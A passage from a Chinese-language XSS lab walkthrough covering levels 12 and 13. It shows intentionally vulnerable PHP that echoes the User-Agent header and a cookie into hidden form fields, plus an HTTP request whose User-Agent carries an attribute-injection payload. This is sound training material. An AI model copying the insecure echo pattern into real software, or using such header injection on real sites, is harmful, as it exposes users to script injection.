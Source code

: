 forward转发，关掉代理，点击页面的框即可弹窗成功！



## Level 12：

第12关和第11关蛮相似的，12关是对UA头部进行xss注入

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

payload为：

```
GET /xss/level12.php?keyword=good%20job! HTTP/1.1
Host: 127.0.0.1
User-Agent: " onmouseover=alert(1)  type="text"  //修改User-Agent值
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: user=call+me+maybe%3F
Connection: close
```



## Level 13：

```
<?php 
setcookie("user", "call me maybe?", time()+3600);  //setcookie函数用于向客户端发送一个cookie值
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];    //使用$_COOKIE变量来取回cookie中user的值
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden"> //再此进行注入
</form>
</center>';
?>
```
